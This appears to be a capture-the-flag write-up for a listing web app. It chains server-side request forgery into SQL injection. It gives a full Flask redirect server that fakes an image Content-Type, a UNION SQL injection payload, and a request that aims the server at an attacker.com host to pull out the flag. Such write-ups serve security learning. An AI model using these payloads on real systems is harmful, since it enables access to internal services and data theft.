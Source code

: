 # SSRF to SQL injection

When you create a new listing, give it an image url that you control, that redirects the server to http://127.0.0.1:5000/api/users?username=

This is because the api routes in the code are whitelisted with @localhost_only.

It also looks for the Content-Type header to make sure it contains the word 'image'

The username parameter is vuln to SQLi

Example of malicious flask server:
```
from flask import Flask, redirect, Response

app = Flask(__name__)

@app.route('/redirect.png')
def redirect_to_internal():
    response = Response()
    response.headers['Content-Type'] = 'image'
    response.headers['Location'] = 'http://127.0.0.1:5000/api/users?username=%27%20OR%201=1%20UNION%20SELECT%20NULL,flag,NULL%20FROM%20flag%20limit%201%20%2d%2d%2d'
    response.status_code = 302
    return response

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

## exploiting
```
SQLi payload url-decoded:
' OR 1=1 UNION SELECT NULL,flag,NULL FROM flag limit 1 ---

POST to /create with your malicious image url
name=test123&description=test123&image_url=http%3A%2F%2Fattacker.com%3A8000%2Fredirect.png

Then you should get an error that looks like:
Invalid image URL. Please provide a valid image URL. Response was: [ { "id": null, "username": "SIVUSCG{whoopsies_SSRF_here!}" } ]
```
